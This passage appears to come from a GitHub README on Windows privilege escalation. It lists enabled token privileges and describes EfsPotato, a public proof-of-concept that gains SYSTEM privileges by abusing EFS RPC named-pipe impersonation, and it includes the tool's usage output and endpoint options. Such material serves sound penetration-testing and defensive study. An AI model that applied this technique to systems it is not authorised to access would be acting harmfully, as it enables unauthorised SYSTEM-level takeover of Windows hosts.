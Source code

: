 ```
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```


## EfsPotato

This technique is not much different from PrintSpoofer.
The only difference is that it uses EFS RPC instead of Print Spooler to get the Named Pipe Connection.

* [GitHub - zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)

Unlike PrintSpoofer, it has been tested on Windows 11 22H2.

```
PS C:\Dev> .\EfsPotato.exe -h

EfsPotato - PoC to get SYSTEM privileges with EFS RPC method.

Usage: EfsPotato.exe [Options]

        -h, --help        : Displays this help message.
        -i, --interactive : Flag to execute command with interactive mode.
        -c, --command     : Specifies command to execute.
        -e, --endpoint    : "efsrpc", "lsarpc", "lsass", "netlogon" or "samr".
        -s, --session     : Specifies session ID.
        -t, --timeout     : Specifies timeout in milliseconds. Default is 3,000 ms.

[!] -c option is required.
```

Usage is same as PrintSpoofer, but you can specify some endpoint pipe name (default is "\pipe\efsrpc").
